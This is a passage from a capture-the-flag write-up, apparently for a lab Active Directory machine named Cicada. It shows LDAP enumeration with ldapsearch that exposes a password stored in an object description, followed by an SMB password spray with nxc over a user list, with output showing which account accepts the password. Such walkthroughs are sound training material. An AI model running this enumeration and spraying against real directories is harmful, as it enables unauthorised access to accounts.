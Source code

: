 > This is where things get interesting. First, I see a group for remote connection called `Remote Management Users`. Second, I see a potential vector for escalating privileges
> in the system since the user is a member of the `Backup Operators` group. **Worth remembering, this is important information**.

> But I still don't have access to the system.

> Scanning `nmap` showed open `ldap` ports (`389 and 636`). Using the existing account, I will display a description for each of the objects in the `Active Directory` system via `ldap`:

```bash

ldapsearch -x -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b "DC=cicada,DC=htb" '(description=*)' description | grep -i description

```
> Result:

<p align="center">
 <img src="./screenshots/user_password.png" alt="user_password" />
</p>

> There is an interesting description for one of the objects  - `Just in case I forget my password is aRt$Lp#7t*VQ!3`. Ok, there is a password. Again, it is not known from whom.

> We run brute force using the same `users.txt` file to determine the appropriate user:

```bash

nxc smb cicada.htb -u users.txt -p 'aRt$Lp#7t*VQ!3' --continue-on-succes

```
> Result:

```bash

SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\michael.wrightson:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE

```